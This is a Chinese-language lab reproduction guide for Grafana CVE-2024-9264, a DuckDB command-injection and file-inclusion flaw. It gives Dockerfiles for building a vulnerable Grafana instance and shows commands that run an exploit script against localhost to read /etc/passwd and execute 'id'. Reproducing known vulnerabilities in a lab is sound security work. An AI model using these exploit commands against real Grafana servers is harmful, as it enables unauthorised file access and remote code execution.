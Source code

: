# Grafana duckdb远程代码执行漏洞（CVE-2024-9264）

Grafana 的 SQL 表达式实验功能允许评估包含用户输入的“duckdb”查询。这些查询在传递给“duckdb”之前没有得到充分的净化，从而导致命令注入和本地文件包含漏洞。任何具有 VIEWER 或更高权限的用户都能够执行此攻击。 “duckdb”二进制文件必须存在于 Grafana 的 $PATH 中才能使此攻击起作用；默认情况下，此二进制文件未安装在 Grafana 发行版中。

## 测试环境

执行如下命令启动Grafana：

```
docker compose up -d
```

这里一定要注意，如果你的电脑非ARM架构，需要修改DockerFile文件：

```
# Dockerfile
FROM grafana/grafana:11.0.0-ubuntu

USER root

# Install DuckDB
RUN apt-get update && apt-get install -y && apt-get install unzip -y  \
    wget \
    && wget https://github.com/duckdb/duckdb/releases/download/v1.1.2/duckdb_cli-linux-aarch64.zip \
    && unzip duckdb_cli-linux-aarch64.zip -d /usr/local/bin/ \
    && chmod +x /usr/local/bin/duckdb \
    && rm duckdb_cli-linux-aarch64.zip

# Add DuckDB to the PATH
ENV PATH="/usr/local/bin:${PATH}"
```

如果你的电脑上AMD64架构，需要将其中的aarch64全部改为amd64，以此类推

```
# Dockerfile
FROM grafana/grafana:11.0.0-ubuntu

USER root

# Install DuckDB
RUN apt-get update && apt-get install -y && apt-get install unzip -y  \
    wget \
    && wget https://github.com/duckdb/duckdb/releases/download/v1.1.2/duckdb_cli-linux-amd64.zip \
    && unzip duckdb_cli-linux-amd64.zip -d /usr/local/bin/ \
    && chmod +x /usr/local/bin/duckdb \
    && rm duckdb_cli-linux-amd64.zip

# Add DuckDB to the PATH
ENV PATH="/usr/local/bin:${PATH}"
```

环境搭建完成后访问 http://127.0.0.1:3000 ：

![1](1.png)

## 漏洞复现

首先下载脚本所需依赖：

```
pip install -r requirements.txt
```

接着运行脚本：

任意文件读取：

```
python CVE-2024-9264.py -u admin -p admin -f /etc/passwd  http://127.0.0.1:3000
```

![2](2.png)

RCE：

```
python CVE-2024-9264.py -u admin -p admin -c id  http://127.0.0.1:3000
```

![3](3.png)